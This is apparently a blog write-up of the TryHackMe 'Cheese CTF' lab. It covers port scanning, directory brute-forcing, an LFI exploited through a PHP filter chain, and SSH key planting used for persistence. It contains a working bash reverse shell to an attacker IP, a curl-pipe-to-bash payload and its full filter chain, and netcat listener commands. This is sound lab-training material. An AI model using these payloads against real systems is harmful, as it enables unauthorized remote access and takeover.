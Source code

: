 ```yaml
---
layout: post
title:  "TryHackMe: Cheese CTF"
description: Inspired by the great cheese talk of THM!
date:   2024-10-10 22:53:59 +0100
categories: jekyll update
---
```


# Cheese CTF:

```sh
export IP= M-ip
```
# Enumeration:

```sh
sudo nmap -sS -sC -sV -vv $IP
```
It's clear that the machine is using port spoofing to create decoy services by opening multiple fake ports. This makes it look like various services are running, which is intended to confuse us and make it harder to identify which port is legitimate.

<details>
  <summary><i>Nmap Discoverd Ports</i></summary>
  <pre>
Discovered open port 143/tcp on 10.10.10.247
Discovered open port 139/tcp on 10.10.10.247
Discovered open port 111/tcp on 10.10.10.247
Discovered open port 995/tcp on 10.10.10.247
Discovered open port 53/tcp on 10.10.10.247
Discovered open port 3389/tcp on 10.10.10.247
Discovered open port 554/tcp on 10.10.10.247
Discovered open port 5900/tcp on 10.10.10.247
Discovered open port 445/tcp on 10.10.10.247
Discovered open port 1720/tcp on 10.10.10.247
Discovered open port 110/tcp on 10.10.10.247
Discovered open port 587/tcp on 10.10.10.247
Discovered open port 8080/tcp on 10.10.10.247
Discovered open port 21/tcp on 10.10.10.247
Discovered open port 22/tcp on 10.10.10.247
Discovered open port 1723/tcp on 10.10.10.247
Discovered open port 80/tcp on 10.10.10.247
Discovered open port 1025/tcp on 10.10.10.247
Discovered open port 993/tcp on 10.10.10.247
Discovered open port 3306/tcp on 10.10.10.247
Discovered open port 5544/tcp on 10.10.10.247
Discovered open port 2222/tcp on 10.10.10.247
Discovered open port 2007/tcp on 10.10.10.247
Discovered open port 3322/tcp on 10.10.10.247
Discovered open port 7402/tcp on 10.10.10.247
Discovered open port 1078/tcp on 10.10.10.247
Discovered open port 3013/tcp on 10.10.10.247
Discovered open port 545/tcp on 10.10.10.247
Discovered open port 8093/tcp on 10.10.10.247
Discovered open port 8010/tcp on 10.10.10.247
Discovered open port 60020/tcp on 10.10.10.247
Discovered open port 9003/tcp on 10.10.10.247
Discovered open port 25/tcp on 10.10.10.247
Discovered open port 6881/tcp on 10.10.10.247
Discovered open port 32775/tcp on 10.10.10.247
Discovered open port 1169/tcp on 10.10.10.247
Discovered open port 5989/tcp on 10.10.10.247
Discovered open port 3005/tcp on 10.10.10.247
Discovered open port 8042/tcp on 10.10.10.247
Discovered open port 49159/tcp on 10.10.10.247
Discovered open port 2135/tcp on 10.10.10.247
Discovered open port 11110/tcp on 10.10.10.247
Discovered open port 8701/tcp on 10.10.10.247
Discovered open port 8193/tcp on 10.10.10.247
Discovered open port 2394/tcp on 10.10.10.247
Discovered open port 5631/tcp on 10.10.10.247
Discovered open port 199/tcp on 10.10.10.247
Discovered open port 90/tcp on 10.10.10.247
Discovered open port 4445/tcp on 10.10.10.247
Discovered open port 1032/tcp on 10.10.10.247
Discovered open port 1009/tcp on 10.10.10.247
Discovered open port 25734/tcp on 10.10.10.247
Discovered open port 5850/tcp on 10.10.10.247
Discovered open port 1812/tcp on 10.10.10.247
Discovered open port 443/tcp on 10.10.10.247
Discovered open port 1030/tcp on 10.10.10.247
Discovered open port 3527/tcp on 10.10.10.247
Discovered open port 2033/tcp on 10.10.10.247
Discovered open port 1152/tcp on 10.10.10.247
Discovered open port 23/tcp on 10.10.10.247
Discovered open port 8083/tcp on 10.10.10.247
Discovered open port 8888/tcp on 10.10.10.247
Discovered open port 113/tcp on 10.10.10.247
Discovered open port 135/tcp on 10.10.10.247
Discovered open port 256/tcp on 10.10.10.247
Discovered open port 1334/tcp on 10.10.10.247
Discovered open port 1192/tcp on 10.10.10.247
Discovered open port 1322/tcp on 10.10.10.247
Discovered open port 32772/tcp on 10.10.10.247
Discovered open port 3052/tcp on 10.10.10.247
Discovered open port 32781/tcp on 10.10.10.247
Discovered open port 27356/tcp on 10.10.10.247
Discovered open port 5414/tcp on 10.10.10.247
Discovered open port 19350/tcp on 10.10.10.247
Discovered open port 808/tcp on 10.10.10.247
Discovered open port 1687/tcp on 10.10.10.247
Discovered open port 9575/tcp on 10.10.10.247
Discovered open port 2035/tcp on 10.10.10.247
Discovered open port 6009/tcp on 10.10.10.247
Discovered open port 50001/tcp on 10.10.10.247
Discovered open port 2909/tcp on 10.10.10.247
Discovered open port 801/tcp on 10.10.10.247
Discovered open port 10617/tcp on 10.10.10.247
Discovered open port 1875/tcp on 10.10.10.247
Discovered open port 38292/tcp on 10.10.10.247
Discovered open port 514/tcp on 10.10.10.247
Discovered open port 2701/tcp on 10.10.10.247
Discovered open port 7999/tcp on 10.10.10.247
Discovered open port 22939/tcp on 10.10.10.247
Discovered open port 1033/tcp on 10.10.10.247
Discovered open port 8008/tcp on 10.10.10.247
Discovered open port 1198/tcp on 10.10.10.247
Discovered open port 2381/tcp on 10.10.10.247
Discovered open port 44442/tcp on 10.10.10.247
Discovered open port 50002/tcp on 10.10.10.247
Discovered open port 3914/tcp on 10.10.10.247
Discovered open port 5225/tcp on 10.10.10.247
Discovered open port 5800/tcp on 10.10.10.247
Discovered open port 2008/tcp on 10.10.10.247
Discovered open port 5862/tcp on 10.10.10.247
Discovered open port 2009/tcp on 10.10.10.247
Discovered open port 8400/tcp on 10.10.10.247
Discovered open port 5033/tcp on 10.10.10.247
Discovered open port 2910/tcp on 10.10.10.247
Discovered open port 10004/tcp on 10.10.10.247
Discovered open port 2260/tcp on 10.10.10.247
Discovered open port 990/tcp on 10.10.10.247
Discovered open port 8085/tcp on 10.10.10.247
Discovered open port 777/tcp on 10.10.10.247
Discovered open port 37/tcp on 10.10.10.247
Discovered open port 8086/tcp on 10.10.10.247
Discovered open port 9898/tcp on 10.10.10.247
Discovered open port 3889/tcp on 10.10.10.247
Discovered open port 616/tcp on 10.10.10.247
Discovered open port 1096/tcp on 10.10.10.247
Discovered open port 7443/tcp on 10.10.10.247
Discovered open port 24/tcp on 10.10.10.247
Discovered open port 6156/tcp on 10.10.10.247
Discovered open port 9080/tcp on 10.10.10.247
Discovered open port 1296/tcp on 10.10.10.247
Discovered open port 2100/tcp on 10.10.10.247
Discovered open port 2607/tcp on 10.10.10.247
Discovered open port 1038/tcp on 10.10.10.247
Discovered open port 1174/tcp on 10.10.10.247
Discovered open port 42/tcp on 10.10.10.247
Discovered open port 2045/tcp on 10.10.10.247
Discovered open port 1783/tcp on 10.10.10.247
</pre>
</details>

# Directory bruteforcing:


```sh
gobuster dir --url http://$IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt
```

```sh
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1759]
/images               (Status: 301) [Size: 313] [--> http://10.10.10.247/images/]
/login.php            (Status: 200) [Size: 834]
/users.html           (Status: 200) [Size: 377]
/messages.html        (Status: 200) [Size: 448]
/orders.html          (Status: 200) [Size: 380]
```

we found that the /messages.html contain 

![Screenshot_9](https://github.com/user-attachments/assets/554342de-9602-4fa1-98f5-ae13da327c3d)

we got a Local File Inclusion (LFI) on /secret-script.php?file=php://filter/resource=/etc/passwd  

PHP applications that allow user input to dictate file handling without proper validation.

![Screenshot_1](https://github.com/user-attachments/assets/3ec570d3-e484-4258-be23-cc2f3683be2b)


# initial access : 

I used php filter chain generator . 

https://github.com/synacktiv/php_filter_chain_generator


```sh
echo "bash -i >& /dev/tcp/10.9.1.54/4444 0>&1" > shell
```
<?= ... ?>: This is PHP's shorthand for <?php echo ... ?>, which means it will output or "echo" whatever is inside the tags.

```sh
python3 php_filter_chain_generator.py --chain '<?= `curl -s -L 10.9.1.54/shell|bash` ?>'
```

<details>
  <summary><i>PHP filter chain </i></summary>
  <pre>
+] The following gadget chain will generate the following code : <?= `curl -s -L 10.9.1.54/shell|bash` ?> (base64 value: PD89IGBjdXJsIC1zIC1MIDEwLjkuMS41NC9yZXZzaGVsbGx8YmFzaGAgPz4)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1162.UTF32|convert.iconv.L4.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
  </pre>
</details>

After we apply the PHP filter chain to the vulnerable Local File Inclusion (LFI), the reverse shell script will be downloaded to the victim machine and executed. This happens by using the curl command to fetch the shell script from our remote server, and then piping it directly into Bash for execution, giving us remote access to the target system.

```sh
Attacker Machine 

sudo python3 -m http.server 80
```
```sh
Attacker Machine

nc -lvnp 4444
```

```sh
http://10.10.237.45/secret-script.php?file=PHP-FILTER-CHAIN
```

![Screenshot_2](https://github.com/user-attachments/assets/b8796269-e663-4402-8c9b-cce01cc4b6c3)


# Privilege escalation:

After further enumeration, I discovered that I have write access to the authorized_keys file in the .ssh directory.

I generated my id_rsa.pub key and added it to the authorized_keys file on the victim machine.

```sh
Attacker Machine

ssh-keygen -t rsa

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC0O0JSsJWhGHQDI1wEqoTZapMiec+9x/FzqM2Ys2+9o8U1RQEp6zHWMVzjGDFSGDSJGDJLKQSJKCJLQKb5iA+mZSagNEHIXn906gQW2/z3hpojwsDTLiEzdEPh+66q28LHFL0FuUmNvslkjmlkcdnhCKUklmdjsq?XCLMW?QLKSFJKDBSJKBdnszfjheafhjvdxqhcvbqvcygfavguvcshjwbcnsbhfsfsojfdsE7NCxFoKcl9MeMyNYPZB4WzRjXStQfF9XyuvhrI+C6VLoWiL11N2owozGhssA/1/hpEjDWJwMe0/7QcYYjTJ2IOJFDSKLNFSDHFDFSDlxWv/zINKv5EttAFyrTtO2pydh3wd5GaC8se0= kali@attacker_machine
```
```sh
Victim Machine

echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC0O0JSsJWhGHQDI1wEqoTZapMiec+9x/FzqM2Ys2+9o8U1RQEp6zHWMVzjGDFSGDSJGDJLKQSJKCJLQKb5iA+mZSagNEHIXn906gQW2/z3hpojwsDTLiEzdEPh+66q28LHFL0FuUmNvslkjmlkcdnhCKUklmdjsq?XCLMW?QLKSFJKDBSJKBdnszfjheafhjvdxqhcvbqvcygfavguvcshjwbcnsbhfsfsojfdsE7NCxFoKcl9MeMyNYPZB4WzRjXStQfF9XyuvhrI+C6VLoWiL11N2owozGhssA/1/hpEjDWJwMe0/7QcYYjTJ2IOJFDSKLNFSDHFDFSDlxWv/zINKv5EttAFyrTtO2pydh3wd5GaC8se0= kali@attacker_machine" > authorized_keys
```

I changed the permissions of the id_rsa private key to ensure it's only readable and writable by me using chmod 600. After that, I used ssh -i id_rsa comte@10.10.122.229 to log into the remote machine as the user comte, authenticating with my private key.

```sh
Attacker Machine

chmod 600 id_rsa

ssh -i id_rsa  comte@10.10.122.229
```

![Screenshot_3](https://github.com/user-attachments/assets/2d798fae-caf9-4243-b251-08a218e826f7)

